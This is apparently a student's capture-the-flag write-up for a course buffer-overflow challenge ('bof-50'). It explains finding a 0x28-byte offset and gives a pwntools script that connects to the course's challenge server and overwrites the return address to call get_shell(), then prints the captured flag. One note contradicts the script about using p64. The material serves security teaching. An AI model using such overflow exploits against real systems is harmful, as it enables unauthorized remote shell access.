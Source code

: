 # 5. write-up (buffer overflows)

## bof-50
**Solve:**
Run `readelf -h bof` to gain basic info on the compiled binary. We notice it's a static binary and no-PIE, which means all the symbols addresses are absolute rather than offsets. 

Use Binja for static analysis. The goal is to map out the program. Entering Binja, we see there's a main() function that allocates a buffer and prompts for user input. Looking around, we notice an interesting function called get_shell(). It pops a shell for us. Our goal is to call this function by overwriting the return address when the program prompts for user input, because then, we can take control of the remote server. 

Open up stack view of main's stack frame on Binja, and we notice that the buffer is at an offset of 0x28 bytes before the return address. This means we should enter 0x28 bytes of any character, and immediately enter the address of get_shell() such that it overwrites precisely the return address. 

We'll write a python script for this exploit. For sending the address of get_shell, we use p64(), which accepts a hex address, encodes it in little-endian by default, and pads the rest of it with zeroes so the whole address is 8 bytes long. Little-endian is desired as return addresses are interpreted as numbers, which are read in little-endian in our case. 

Python script is shown here:
```python
from pwn import *
print("before ELF line")
p = remote("offsec-chalbroker.osiris.cyber.nyu.edu", 1280)

p.recvuntil("123): ".encode()) # .encode() turns str into raw bytes
p.sendline("hw3172")
p.recvuntil("> ".encode())
p.sendline(b"B"*0x28 + p64(0x401218))
# ^ same as: p.sendline(b"B"*0x28 + b"\x18\x12\x40\x00\x00\x00\x00\x00")
# p64() sends the addr in little-endian and pads it with zeroes until it's
# 8 bytes full
p.interactive()
```

**Flag:**
flag{Sm4sh1ng_Th3_St4ck_m0stly_f0r_fUn!_a82ea14bef65b164}

**Summary:**
- flow: unchecked buffer on stack --> use user input to overwrite return addr to call an interesting function called get_shell(), which pops a shell for us on the remote system --> run `ls` to see files --> notice flag.txt --> `cat flag.txt` to see its content
- concepts: - memory layout - function prologue - `call` instruction before function prologue
- techniques: - when you overwrite the return addr, make sure your sent-in return addr is complete. This means if the target architecture is 64-bits (8 bytes) where memory addrs are encoded with 8 bytes, your sent-in addr should also be 8 bytes. This implies padding the end with zeroes may be required.
- problems: ELF takes up too much memory on Amazon VM and quits script. That's why I'm manually writing get_shell's address instead of using p64 